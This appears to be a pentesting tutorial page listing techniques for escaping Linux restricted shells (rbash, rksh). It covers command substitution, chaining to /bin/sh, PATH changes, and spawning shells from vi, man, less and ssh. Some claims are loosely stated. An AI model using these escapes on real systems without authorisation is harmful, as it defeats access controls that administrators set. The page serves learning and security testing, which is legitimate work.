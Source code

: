 ```yaml
---
title: Linux Escaping Restricted Shells
author: amandaguglieri
draft: false
TableOfContents: true
tags:
  - pentesting
  - privilege
  - escalation
  - linux
---
```

# Escaping Restricted Shells

Restricted shells (e.g., `rbash`, `rksh`, `rzsh`) limit user capabilities by restricting commands, directory access, and environment modifications. Below are various techniques to escape restricted shells.

But first, when we land on an restricted shell we can enumerate available commands and also what is accessible:

```
# First, we locate the folder with the accepted binaries
echo $PATH

# Second, if ls is restricted, we can use echo `*`. For instance, for printing the files in current directory
echo *

# If the PATH was /home/user/bin, we can list the contents of PATH (the commands we can execute) with echo
echo /home/user/bin/*

# Also, if echo works, but not cat or some redirections characters, we can use that in out favor to read, for instance a file:
echo $(< flag.txt)
```


---

## **1. Command Injection**

If the restricted shell allows executing certain commands with arguments, you can inject additional commands.

```sh
ls -l `pwd`
```

or using `$()`:

```sh
ls -l $(pwd)
```

Another example:

```sh
echo $(whoami)
```

If `pwd` or `whoami` is unrestricted, they will execute.

---

## **2. Command Substitution**

Using backticks (`` `command` ``) or `$()` allows command execution.

```sh
echo `id`
```

or:

```sh
echo $(id)
```

This prints user information even if `id` is restricted.

---

## **3. Command Chaining**

Using `;`, `|`, `&&`, or `||` to append an unrestricted command.

```sh
echo "Restricted Shell"; /bin/sh
```

or:

```sh
ls -l | /bin/sh
```

If `/bin/sh` isn't restricted, this will drop into an unrestricted shell.

---

## **4. Environment Variables**

Modifying `$PATH` or `$SHELL` to execute commands.

```sh
export PATH=/bin:/usr/bin:$PATH
/bin/sh
```

or:

```sh
export SHELL=/bin/sh
exec /bin/sh
```

This changes the default shell to `/bin/sh`, possibly escaping the restricted environment.

---

## **5. Shell Functions**

Defining a function to execute an unrestricted shell.

```sh
function myescape { /bin/sh; }
myescape
```

or overriding a built-in command:

```sh
ls() { /bin/sh; }
ls
```

If `/bin/sh` is available, this escapes the restricted shell.

---

## **6. Using Built-in Commands**

If `vi` or `nano` is allowed, they can spawn an unrestricted shell.

Example using `vi`:

```sh
vi
```

Inside `vi`, press `ESC` and type:

```
:set shell=/bin/sh
:shell
```

If `vi` is available, it spawns a new unrestricted shell.

---

## **7. Using `man` to Execute Commands**

If `man` is allowed:

```sh
man man
!/bin/sh
```

Typing `!/bin/sh` inside `man` spawns a new shell.

---

## **8. Exploiting `less` or `more`**

If `less` or `more` is available:

```sh
less /etc/passwd
```

Then type:

```
!sh
```

This launches an unrestricted shell.

---

## **9. Using SSH to Escape**

If `ssh` is allowed:

```sh
ssh user@localhost /bin/sh
```

This spawns an unrestricted shell if SSH access is permitted.

---

## **10. Backgrounding a Process**

If `Ctrl + Z` works, suspend the shell and launch another shell.

Example:

```sh
vi
```

Then press `Ctrl + Z` to suspend it and try:

```sh
/bin/sh
```

or:

```sh
fg
```

Sometimes this drops you into an unrestricted shell.

---

These techniques vary depending on the level of restriction, but one or a combination of them often works to escape restricted shells.